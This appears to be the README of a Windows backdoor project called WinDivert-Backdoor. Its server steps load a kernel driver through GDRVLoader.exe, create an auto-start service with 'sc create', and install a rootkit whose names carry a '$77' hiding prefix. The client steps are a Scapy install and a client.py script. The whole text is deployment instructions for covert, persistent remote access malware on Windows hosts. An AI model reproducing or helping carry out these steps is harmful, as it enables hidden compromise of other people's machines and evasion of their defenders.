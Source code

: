 # WinDivert-Backdoor
## Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe $77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
## Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

